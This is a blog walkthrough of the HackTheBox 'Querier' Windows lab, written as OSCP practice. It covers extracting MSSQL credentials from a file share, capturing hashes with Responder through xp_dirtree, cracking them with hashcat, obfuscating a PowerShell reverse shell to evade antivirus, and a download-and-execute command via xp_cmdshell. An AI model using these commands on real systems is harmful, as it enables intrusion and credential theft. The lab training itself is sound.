



Welcome
Joe Grassl
Freelance codeslinger
>>Querier
Querier was another fun challenge from HackTheBox. I wanted to check this one out because other HTB users have said that it's fairly realistic and good training for the OSCP exam. It's also a Windows machine, which are common in the real world. Nmap shows an MSSQL server, an SMB file server, a couple other Windows utilities, and some strange high ports, which we can disregard until we run out of more plausible attack routes.
The SMB server has an interesting share called "Reports". Alright, what do we have here...
A spreadsheet? I doubt it. Tip: a lone document in a mysterious CTF directory is almost never just a document, especially if it seems empty or you have trouble opening it.
Binwalk is able to extract a zip archive from the file. In order to search all the zip files in the quickest, dirtiest way possible, I run strings. Within the strings dump is a line with some SQL server credentials. Score!

Impacket, which is recommended by many users in the HTB forums, is a collection of Python scripts for connecting to and using various network protocols. One of those tools happens to be named mssqlclient.py and it sure does come in handy. Logging in as Reporting on the MSSQL server is successful. Note the escaped "$" in the password.

Now, I was bit stumped here when it came to privilege escalation, but eventually I came across a another excellent tool called
Responder. Basically, Responder listens for NetBIOS broadcasts and responds claiming to be one of the servers on the network. Then, when authentication is required for this server, the hashes that would have gone to legitimate server go to you. Apparently, this technique is big in the world of Windows hacking and popular for MSSQL hacking in particular. Here, I ran "responder -I tun0 -wrf". In the last picture, you can see that I ran "exec master..xp_dirtree '//10.10.12.32/delta'" to direct the MSSQL server to request a fake SMB address on my machine. This allows Responder to disguise itself as the real server and grab hashes. Anything that gives out hashes that easily goes in the toolkit and stays in the toolkit.
As always, this hash will be served to hashcat with a side of rockyou.txt. The full command came out like so: "hashcat -a 0 -m 5600 hash.txt tools/lists/rockyou.txt --force".
With the new username and password in hand, it's easy enough to pop another shell. When you land in an unfamiliar shell, it often helps to run "help". In this case, it really helps. At this point, a nice reverse shell is within easy reach.
I had just read a really interesting
article by Carrie Roberts of Walmart Labs. She wrote an easy-to-use, OpenSSL encrypted PowerShell one-liner reverse shell. I had been on the hunt for one of these ever since Empire 3.0 disappointed me. Empire is a great collection of tools, but in my experience, it's just too laggy. Maybe that's overhead from some awesome security or anti-security magic, but I just wanted a lightweight, encrypted shell that's responsive over my terrible mobile hotspot connection. This one does the trick.
Just in case there's some sort of antivirus watching for a signature like this, we can scramble the payload with Invoke-Obfuscation. As you can see, this tool offers many obfuscation techniques. Just using a single pass of concatenation and reordering returns a really messed up script. Perfect!
The scrambled script goes on my Apache web server so that we can easily run it in memory on the target machine with a web request later. Next, the OpenSSL server must be started. Now, everything is set up to recieve the new shell. After running 'xp_cmdshell powershell.exe -c "iex (iwr http://10.10.12.32/ctf/openssl)"' in the previous MSSQL shell, our long-awaited prompt appears!

The user flag is just where you might expect, but what about privilege escalation?
Luckily, a much better hacker than me has already written a PowerShell script to check for all sorts of common privesc vulnerabilities in Windows environments. It's called
PowerUp and it kicks ass. This script is worth a shot on every Windows machine you land a shell on.
A couple points of interest right here. Definitely something to check out if this was a penetration test.
However, in this case, I think we can make due with the plaintext admin credentials.

Format everything right, run Invoke-Command, grab the root flag. Another HTB machine completed. This one taught me a bunch of new techniques and was great practice for the kind of in-memory, PowerShell-based Windows hacking that has become the standard of modern pentesting.